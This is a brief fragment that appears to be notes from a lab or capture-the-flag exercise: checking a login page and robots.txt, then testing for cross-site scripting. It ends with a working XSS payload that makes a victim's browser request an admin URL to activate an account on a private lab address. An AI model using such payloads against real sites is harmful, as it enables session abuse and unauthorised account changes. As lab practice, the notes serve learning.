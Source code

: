 Try to login, nothing

robots.txt

test XSS vuln

add <script>document.write('<img src="http://192.168.56.104/admin/admin.php?id=11&status=active"/>');</script>

